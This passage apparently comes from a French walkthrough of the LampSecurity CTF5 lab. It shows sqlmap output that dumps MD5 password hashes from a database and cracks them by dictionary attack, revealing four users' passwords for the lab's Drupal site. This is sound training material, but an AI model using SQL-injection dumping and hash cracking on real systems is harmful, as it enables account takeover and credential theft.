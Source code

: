 ```console
[13:50:50] [INFO] retrieved: 6c470dd4a0901d53f7ed677828b23cfd
--snip--
[13:50:50] [INFO] retrieved: amy
[13:50:50] [INFO] retrieved: e5f0f20b92f7022779015774e90ce917
--snip--
[13:50:50] [INFO] recognized possible password hashes in column 'pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
--snip--
[13:50:50] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:50:50] [INFO] cracked password 'lorenpass' for user 'loren'                                                                                         
[13:50:50] [INFO] cracked password 'newdrupalpass' for user 'andy'                                                                            
[13:50:50] [INFO] cracked password 'password' for user 'patrick'                                                                                 
[13:50:50] [INFO] cracked password 'temppass' for user 'amy'                                                                                          
--snip--
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : quatre mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le Drupal /events/ en tant que loren, andy, patrick ou encore amy, et permet surtout de conclure ce _walkthrough_ sur LampSecurity CTF5.